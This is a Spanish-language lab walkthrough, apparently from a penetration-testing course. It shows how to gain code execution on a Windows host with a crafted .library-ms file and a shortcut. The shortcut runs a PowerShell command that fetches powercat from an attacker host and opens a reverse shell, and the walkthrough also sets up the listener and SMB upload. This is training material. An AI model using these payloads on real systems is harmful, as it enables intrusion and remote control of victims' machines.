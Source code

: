 # Walk: Client-side Attacks - Abusing Windows Library Files

## Fecha: 2025-02-06

## Host: HR137

## IP: 192.168.xxx.195

----------

## Objetivo

Follow the steps in this section to get code execution on the _HR137_ (VM Group 1 - VM #2) system by using library and shortcut files. Be aware that after every execution of a **.lnk** file from the WebDAV share, the library file from the SMB share will be removed. You can find the flag on the desktop of the _hsmith_ user. You can use VM #1 of VM Group 1 to build the library file and shortcut.

----------

## Herramientas

1.  **xfreerdp** - Para acceso remoto por RDP.
2.  **wsgidav** - Para levantar el servidor de descarga inicial. 
3. **powercat** - Para generar el reverse shell en windows
4. **nc** reverse shell
5.  **VS-Code** - Para editar los archivos de configuración.
6.  **smbclient** - Para transferir archivos entre Kali y la máquina objetivo.
7.  **exiftool** - Para analizar metadatos de archivos.

----------

## Procedimiento y comandos

### Paso 1 - Preparación de los archivos para el ataque en la máquina WinPrep (192.168.232.194)

1.  **Conectar por RDP a la máquina WinPrep y compartir carpeta temporal:**

```bash
xfreerdp /u:offsec /p:lab /v:192.168.xxx.194 /drive:/tmp
```

2.  **Crear el archivo `config.Library-ms`:**
    
    -   Abrir VS-Code y crear un archivo de texto vacío en el escritorio con el nombre `config.Library-ms`.
    -   Cerrar VS-Code para que el archivo se registre.
    -   Hacer clic derecho → **Open with** → VS-Code.
    -   Copiar el código de la librería de Windows (modificando la IP por la de tu interfaz `tun0`).
    -   Guardar y cerrar VS-Code.
   
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://IP_ATACANTE</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
3.  **Crear el archivo de acceso directo `automatic_configuration.lnk`:**
    
    -   Clic derecho en el escritorio → **New** → **Shortcut**.
    -   En la ubicación del elemento, copiar el comando completo para la descarga y ejecución de PowerShell:
   
```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://IP_ATACANTE:8000/powercat.ps1');powercat -c IP_ATACANTE -p 4444 -e powershell"
```
4.  **Transferir los archivos a Kali:**
    
    -   Acceder al directorio compartido:
        
        ```bash
        cd /home/kali/webdav
        cp /tmp/automatic_configuration.lnk .
        cp /tmp/config.Library-ms .
        
        ```
        

### Paso 2 - Transferir archivos a la máquina objetivo HR137 (192.168.232.195)

1. **Ejecutar el servidor python y netcat**
`python3 -m http.server 8000`
`nc -lnvp 4444` 

2.  **Subir los archivos mediante `smbclient`:**

```bash
smbclient //192.168.232.195/share -c 'put config.Library-ms'
smbclient //192.168.232.195/share -c 'put automatic_configuration.lnk'

```
3. **Obtenemos el flag**
`cd C:\Users\hsmith\Desktop`
`type flag.txt`

### Paso 3 - Verificación del Mark of the Web flag - 2

1.  **Recuperar el archivo `.lnk` para verificar el Mark of the Web:**

```bash
smbclient //192.168.232.195/share -c 'get automatic_configuration.lnk'

```

2.  **Analizar metadatos con `exiftool`:**

```bash
exiftool -u -a automatic_configuration.lnk

```

3.  **Verificar el Mark of the Web (Zone.Identifier):**

```powershell
Get-Content automatic_configuration.lnk -Stream Zone.Identifier

```

## Troubleshooting

1.  **Error al intentar usar `smbclient` en la máquina Windows:**
    
    -   Solución: `smbclient` es una herramienta de Linux. Debe usarse desde la máquina Kali para interactuar con recursos SMB.
2.  **No se encontró el flujo `Zone.Identifier`:**
    
    -   Si el comando PowerShell no muestra el flujo alternativo, significa que el archivo no está marcado con el "Mark of the Web".
3.  **Problemas al transferir archivos por WebDAV:**
  
    -   Asegurarse de que el servidor WebDAV no esté activo al momento de preparar los archivos para evitar modificaciones accidentales.

----------

## Herramientas Alternativas

-   **rdesktop:** Alternativa para conexiones RDP.
    
    ```bash
    rdesktop 192.168.232.194
    
    ```
    
-   **PowerShell (Invoke-WebRequest):** Para descargar archivos directamente desde la máquina Windows.
    
    ```powershell
    Invoke-WebRequest -Uri http://192.168.232.194/config.Library-ms -OutFile C:\Users\hsmith\Desktop\config.Library-ms
    
    ```
    
-   **Impacket (smbclient.py):** Alternativa en Python para interactuar con recursos SMB.
    
    ```bash
    smbclient.py hsmith@192.168.xxx.195
    
    ```


